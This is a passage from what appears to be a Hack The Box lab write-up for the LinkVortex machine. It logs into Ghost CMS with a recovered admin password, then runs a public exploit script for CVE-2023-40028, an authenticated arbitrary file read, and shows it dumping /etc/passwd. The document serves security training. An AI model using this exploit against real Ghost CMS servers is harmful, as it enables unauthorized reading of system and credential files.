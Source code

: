 **A new password** was added! Login to `Ghost CMS` using the portal and username we found earlier
```
admin@linkvortex.htb:OctopiFociPilfer45
```

![htb-linkvortex-admin-dashboard](images/HTB-linkvortex/htb-linkvortex-admin-dashboard.png)

### Authenticated Arbitrary File Read
We know this version of `Ghost CMS` is vulnerable to a [CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028){:target="_blank"}{:rel="noopener noreferrer"}, an **authenticated file read** vulnerability. Clone the repo and change the `GHOST_URL` variable
```bash
GHOST_URL='http://linkvortex.htb'
```

Now we can run the exploit
```bash
┌──(kali@kali)-[~/linkvortex.htb/CVE-2023-40028]
└─$ ./CVE-2023-40028.sh --help
./CVE-2023-40028.sh: illegal option -- -
Usage: ./CVE-2023-40028.sh -u username -p password

┌──(kali@kali)-[~/linkvortex.htb/CVE-2023-40028]
└─$ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```